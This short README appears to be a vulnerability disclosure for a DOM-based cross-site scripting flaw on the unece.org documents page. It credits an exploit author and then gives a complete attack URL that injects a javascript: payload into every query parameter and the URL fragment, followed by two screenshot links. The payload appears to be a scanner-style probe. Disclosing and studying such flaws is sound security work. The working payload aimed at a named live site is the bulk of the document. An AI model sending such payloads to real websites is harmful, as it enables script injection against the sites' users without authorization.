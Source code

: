 # DOM-Based Cross Site Scripting
* `Exploit Author:` **Nguyen Phu Hung (d4rkp0w4r)**
* `parameter vuln & payload`
```c 
https://unece.org/unece-content/documents?accordion=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&keyword=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&past=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&tab=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&type=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&unsubscribe=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")&wvstest=javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")#javascript:domxssExecutionSink(1,"'\"><xsstag>()locxss")
```
![](https://i.imgur.com/N8eiRb9.png)

![](https://i.imgur.com/cfV38gG.png)

